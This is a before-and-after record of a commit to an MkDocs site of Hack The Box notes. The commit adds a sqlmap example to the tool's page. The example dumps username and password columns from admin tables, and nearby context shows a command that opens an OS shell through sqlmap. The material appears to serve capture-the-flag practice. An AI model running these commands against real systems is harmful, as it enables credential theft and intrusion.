

Before and after one commit to jd-apprentice/hack-the-box, an MkDocs documentation site: the page built from docs/software/sqlmap.md, in a window 1280 px wide and 900 px high, scrolled down 695 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
docs: sqlmap

````diff
--- a/docs/software/sqlmap.md
+++ b/docs/software/sqlmap.md
@@ -34,6 +34,18 @@
 sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> --os-shell --batch
 ```
 
+More examples
+
+```
+sqlmap -D usage_blog --threads 10 -T admin_users,users -C username,password --batch --dump -r ~/Documents/Proyectos/hack-the-box/machines/usage/req_password --ignore-code 401
+```
+
+Where:
+
+- `-D` DBMS database to enumerate
+- `-T` DBMS database tables to enumerate
+- `-C` DBMS database table columns to enumerate
+
 And we can use a request file to avoid the need of the URL:
 
 ```bash
````
